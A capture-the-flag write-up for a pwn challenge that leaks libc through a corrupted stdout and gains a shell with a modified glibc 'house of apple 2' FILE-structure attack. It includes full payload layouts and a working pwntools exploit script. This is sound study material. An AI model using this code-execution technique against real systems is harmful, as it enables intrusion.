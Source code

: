# file101

Attachment:

```c
#include <stdio.h>

void main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  puts("stdout:");
  scanf("%224s", (char*)stdout);
  puts("stderr:");
  scanf("%224s", (char*)stderr);
}
```

We can write data to `stdout` and `stderr`, which allows for file stream oriented programming, specifically [house of apple 2](https://www.roderickchan.cn/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/).

Heavily inspired by [BlackHat MEA 2025 Writeup - pwn by @Rosayxy](https://rosayxy.github.io/blackhat-mea-2025-writeup-pwn/), but uses a modified house of apple 2 instead of house of cat.

Steps:

1. Override the lowest byte of `stdout._IO_write_base` to zero, so that internal data of `stdout` is leaked via stdout
2. Based on leaked data, we know the base address of libc, construct the house of apple 2 payload using the libc base address with some modifications:
    1. `scanf` stops when `0x20` is encountered, so `fake_file->file._flags` is set to `"aa;sh\x00"` instead of the typical `"\x20sh\x00"`
    2. the offset of `_wide_vtable` within `fake_file->file._wide_data` is 0xE0, which overflows the input limitation of `%224s`; so we point `fake_file->file._wide_data` to `fake_file - 0x10` instead
3. Send the payload to get shell

Typical house of apple 2 payload:

```python
payload = flat(
    {
        # fake_file->file._flags
        # requirements:
        # (_flags & 0x0002) == 0
        # (_flags & 0x0008) == 0
        # (_flags & 0x0800) == 0
        # basic approach with spaces:
        # " sh\x00"
        # 0x20, 0x73, 0x68, 0x00
        0x00: b" sh\x00",
        # fake_file->file._wide_data->_IO_write_base
        0x18: p64(0),
        # fake_file->file._IO_write_base
        0x20: p64(0),
        # fake_file->file._IO_write_ptr
        0x28: p64(1),
        # fake_file->file._wide_data->_IO_buf_base
        0x30: p64(0),
        # fake_file->file._wide_data->_wide_vtable->__doallocate
        0x68: libc.symbols["system"],
        # fake_file->file._lock
        0x88: libc_unstrip.symbols["_IO_stdfile_0_lock"],
        # fake_file->file._wide_data
        0xA0: fake_file,
        # fake_file->file._mode
        0xC0: p64(0),
        # fake_file->vtable
        0xD8: libc.symbols["_IO_wfile_jumps"],
        # fake_file->file._wide_data->_wide_vtable
        0xE0: fake_file,
    }
)
```

Modified paylaod for this challenge:

```python
payload = flat(
    {
        # fake_file->file._flags
        # requirements:
        # (_flags & 0x0002) == 0
        # (_flags & 0x0008) == 0
        # (_flags & 0x0800) == 0
        # without spaces:
        # 0x61, 0x61, 0x3b, 0x73, 0x68, 0x00
        0x00: b"aa;sh\x00",
        # fake_file->file._wide_data->_IO_write_base
        0x08: p64(0),
        # fake_file->file._IO_write_base
        # fake_file->file._wide_data->_IO_buf_base
        0x20: p64(0),
        # fake_file->file._IO_write_ptr
        0x28: p64(1),
        # fake_file->file._wide_data->_wide_vtable->__doallocate
        0x68: libc.symbols["system"],
        # fake_file->file._lock
        0x88: libc_unstrip.symbols["_IO_stdfile_0_lock"],
        # fake_file->file._wide_data
        0xA0: fake_file - 0x10,
        # fake_file->file._mode
        0xC0: p64(0),
        # fake_file->file._wide_data->_wide_vtable
        0xD0: fake_file,
        # fake_file->vtable
        0xD8: libc.symbols["_IO_wfile_jumps"],
    }
)
```

Attack:

```python
from pwn import *
from pwnlib.libcdb import search_by_build_id

elf = ELF("./chall")
libc = elf.libc
# get debug symbols for libc
libc_unstrip_filename = search_by_build_id(libc.buildid.hex(), unstrip=True)
libc_unstrip = ELF(libc_unstrip_filename)
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]
context(arch="amd64", os="linux", log_level="debug")

p = process("./chall")

# house of apple 2
# https://www.roderickchan.cn/zh-cn/house-of-apple-一种新的glibc中io攻击方法-2/

# gdb.attach(p)
# pause()

# libc leak
# https://rosayxy.github.io/blackhat-mea-2025-writeup-pwn/
p.recvuntil(b"stdout:\n")
# 0xFBAD1800:
# _IO_MAGIC
# _IO_IS_APPENDING
# _IO_CURRENTLY_PUTTING
# override lowest byte of _IO_write_base to 0x00
# so that data is leaked within stdout
p.sendline(p64(0xFBAD1800) + p64(0) * 3)
# using local libc here, offset can be different from remote
# data starting from &stdout[0x40] is printed
p.recv(0x28)
# &stdout[0x68]: _chain, stdout->file._chain is stdin
libc_leak = u64(p.recv(6).ljust(8, b"\x00"))
libc_addr = libc_leak - libc.symbols["_IO_2_1_stdin_"]

libc.address = libc_addr
libc_unstrip.address = libc_addr
print("libc", hex(libc_addr))

# construct payload for house of apple2
# using stderr as fake_file
fake_file = libc.symbols["_IO_2_1_stderr_"]
payload = flat(
    {
        # fake_file->file._flags
        # requirements:
        # (_flags & 0x0002) == 0
        # (_flags & 0x0008) == 0
        # (_flags & 0x0800) == 0
        # basic approach with spaces:
        # " sh\x00"
        # 0x20, 0x73, 0x68, 0x00
        # 0x00: b" sh\x00",
        # without spaces:
        # 0x61, 0x61, 0x3b, 0x73, 0x68, 0x00
        0x00: b"aa;sh\x00",
        # fake_file->file._wide_data->_IO_write_base
        0x08: p64(0),
        # fake_file->file._IO_write_base
        # fake_file->file._wide_data->_IO_buf_base
        0x20: p64(0),
        # fake_file->file._IO_write_ptr
        0x28: p64(1),
        # fake_file->file._wide_data->_wide_vtable->__doallocate
        0x68: libc.symbols["system"],
        # fake_file->file._lock
        0x88: libc_unstrip.symbols["_IO_stdfile_0_lock"],
        # fake_file->file._wide_data
        0xA0: fake_file - 0x10,
        # fake_file->file._mode
        0xC0: p64(0),
        # fake_file->file._wide_data->_wide_vtable
        0xD0: fake_file,
        # fake_file->vtable
        0xD8: libc.symbols["_IO_wfile_jumps"],
    }
)
p.recvuntil("stderr:")
p.send(payload)

p.interactive()
```
